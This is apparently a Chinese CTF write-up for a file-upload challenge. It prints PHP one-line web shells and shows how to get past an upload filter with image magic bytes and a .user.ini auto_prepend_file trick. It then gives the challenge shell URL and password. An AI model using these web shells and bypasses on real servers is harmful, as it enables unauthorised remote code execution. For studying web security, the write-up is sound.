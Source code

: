 ```yaml
---
Author: Coder-LYQ
Date: 2020-12-19
---
```




##  flag



##  思路

1. 打开网页是比较明显的文件上传的题目。一般文件上传的题目，首先就制作一句话木马上传，然后查看是否返回提示信息。

2. 最普通的一句话木马,保存为php文件，然后上传，显示如下，说明后端不允许上传php文件。

   `<?php @eval($_POST('pass'))?>`

   <img src="/images/image-20201223145657037.png" alt="image-20201223145657037" style="zoom:33%;" />

3. 然后将后缀改为.jpg后再上传，结果如下，检测出<?，说明后端对上传文件有所检查，如果有<?则不允许上传。

   <img src="/images/image-20201223145956261.png" alt="image-20201223145956261" style="zoom:33%;" />

   因此可考虑换其他木马。

   `<script language="php">eval($_POST['a']);</script>`

   <img src="/images/image-20201223150237140.png" alt="image-20201223150237140" style="zoom:33%;" />

4. 此时又显示exif_imagetype:not image!

   exif_imagetype是一个判断图像类型的函数，会读取图像的第一个字节并检查其签名

   常见图片的开头几个字节如下：

   > - JPG ：FF D8 FF E0 00 10 4A 46 49 46
   > - GIF(相当于文本的GIF89a)：47 49 46 38 39 61
   > - PNG： 89 50 4E 47

   因此，在上传的木马最前面加上以上字节即可。

   <img src="/images/image-20201223151136107.png" alt="image-20201223151136107" style="zoom:33%;" />

5. 到此步，已经可以成功上传带有木马的jpg文件，但jpg文件并不能直接执行，因此要想办法能让a.jpg以某种方式执行，然后我们就可以用御剑进行连接。

6. 上传**.user.ini**文件

   ```
   GIF
   auto_prepend_file=a.jpg
   ```

   该文件的含义是当访问同文件下的任何一个文件时，都会包含a.jpg文件。

   <img src="/images/image-20201223152036109.png" alt="image-20201223152036109" style="zoom:50%;" />

   根据显示的结果，可以看到该目录下同样还有index.php，因此此时在访问index.php文件时，默认会在index.php文件的前面加上a.jpg的内容，即可利用御剑进行连接。

   ```html
   URL地址：http://1d52bb40-2953-4635-a1e0-43a09c024d11.node3.buuoj.cn
   /uploads/e2e7ec165ba05a5e1f3198caa7e22b54/index.php
   密码：pass
   ```



## 总结

- 对于文件上传的题目，应该多尝试上传几种文件。
  - 最常见的一句话木马
  - 文件后缀
  - 图片的文件头标志
- 成功上传图片马--》使用.user.ini配置文件间接执行图片马

